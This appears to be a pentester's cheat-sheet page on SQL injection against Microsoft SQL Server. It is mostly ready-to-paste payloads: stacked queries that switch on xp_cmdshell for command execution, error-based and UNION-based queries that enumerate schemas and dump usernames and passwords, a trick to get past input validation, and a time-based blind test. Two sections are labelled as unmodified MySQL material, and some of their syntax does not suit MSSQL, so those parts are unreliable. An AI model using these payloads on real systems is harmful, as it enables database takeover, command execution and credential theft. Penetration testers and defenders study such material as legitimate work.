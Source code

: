 # MSSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

Utilize [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md) for additional guidance

### RCE

We can first can attempt to get RCE with the following injection sequence:

```mysql
# First test if nothing needs to be configured
'; EXEC xp_cmdshell 'whoami'; -- //
'
# If no response is given, we can pursue the following command sequence
'; EXEC sp_configure 'show advanced options', 1; -- //
'; RECONFIGURE; -- //
'; EXEC sp_configure 'xp_cmdshell', 1; -- //
'; RECONFIGURE; -- //
'; EXEC xp_cmdshell 'whoami'; -- //
```

### Error-based Payloads vs Authentication Queries !!UNMODIFIED FROM MySQL!!

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections !!UNMODIFIED FROM MySQL!!

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```
